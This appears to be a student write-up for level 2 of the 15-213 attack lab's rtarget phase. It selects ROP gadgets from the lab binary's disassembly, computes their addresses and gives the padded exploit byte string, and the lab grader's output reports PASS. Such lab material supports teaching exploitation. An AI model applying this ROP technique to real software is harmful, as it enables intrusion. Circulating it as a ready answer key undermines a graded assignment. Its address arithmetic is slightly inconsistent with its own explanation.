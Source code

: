 ```
which can be put together to exploit the rtarget program, we can find this in the dissassembled code, there are a lot of functions and the ones we can pic are located between_start farm and end__farm. our two are 

rtarget.d
```
0000000000401b64 <getval_407>:
  401b64:	b8 c2 48 89 c7       	mov    $0xc78948c2,%eax
  401b69:	c3  
```

and 
rtarget.d
```
0000000000401b43 <setval_227>:
  401b43:	c7 07 48 58 90 c3    	movl   $0xc3905848,(%rdi)
  401b49:	c3                   	retq   
```
which give us our two address for popq %rax, movq %rax, %rdi. However, notice that since movq starts on the third byte, we have to add 2 to the address. Do the same for popq. New addresses are shown below
```
movq - 401b64 + 2 = 401b66 
popq - 401b43 + 3 = 401b46
```

create phase4.txt which contains string
padding
gadget 1 address
cookie
gadget 2 address
return address
touch 2 address (shown below)


phase4.txt
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
46 1b 40 00 00 00 00 00 // address 1
61 d0 7f 11 00 00 00 00 // cookie
66 1b 40 00 00 00 00 00 // address 2
8f 19 40 00 00 00 00 00 // touch2 location 
```


After running the following commands, we get something like this

```
Cookie: 0x117fd061
Touch2!: You called touch2(0x117fd061)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 46 1B 40 00 00 00 00 00 61 D0 7F 11 00 00 00 00 66 1B 40 00 00 00 00 00 8F 19 40 00 00 00 00 00